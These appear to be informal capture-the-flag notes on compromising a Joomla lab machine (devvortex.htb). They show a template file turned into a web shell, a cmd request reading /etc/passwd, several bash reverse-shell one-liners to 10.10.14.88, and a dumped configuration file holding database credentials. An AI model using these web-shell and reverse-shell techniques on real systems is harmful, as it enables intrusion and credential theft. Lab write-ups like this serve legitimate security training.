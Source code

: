 
after editing error.php file in Templates 

GET /templates/cassiopeia/error.php?cmd=cat%20/../../../../../../../etc/passwd HTTP/1.1

cmd is possible hmm 

"/bin/bash%20-c%20'bash%20-i%20>&%20/dev/tcp/"10.10.14.88"/5678%200>&1'"

"/bin/bash%20-c%20'bash%20-i%20>&%20/dev/tcp/10.10.14.88/5678%200>&1'"

/bin/bash%20-c%20'bash%20-i%20>&%20/dev/tcp/"10.10.14.88"/5678%200>&1'


changing the php file in templates and then  (php-reverse-shell)
if I go there using burp suite 
it is found that I can get into the system inside 


/var/www/dev.devvortex.htb/templates/cassiopeia

```php
<?php
class JConfig {
	public $offline = false;
	public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
	public $display_offline_message = 1;
	public $offline_image = '';
	public $sitename = 'Development';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = 20;
	public $access = 1;
	public $debug = false;
	public $debug_lang = false;
	public $debug_lang_const = true;
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'lewis';
	public $password = 'P4ntherg0t1n5r3c0n##';
	public $db = 'joomla';
	public $dbprefix = 'sd4fg_';
	public $dbencryption = 0;
	public $dbsslverifyservercert = false;
	public $dbsslkey = '';
	public $dbsslcert = '';
	public $dbsslca = '';
	public $dbsslcipher = '';
	public $force_ssl = 0;
	public $live_site = '';
	public $secret = 'ZI7zLTbaGKliS9gq';
	public $gzip = false;
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy?keyref=Help{major}{minor}:{keyref}&lang={langcode}';
	public $offset = 'UTC';
	public $mailonline = true;
	public $mailer = 'mail';
	public $mailfrom = 'lewis@devvortex.htb';
	public $fromname = 'Development';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = false;
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = 25;
	public $caching = 0;
```
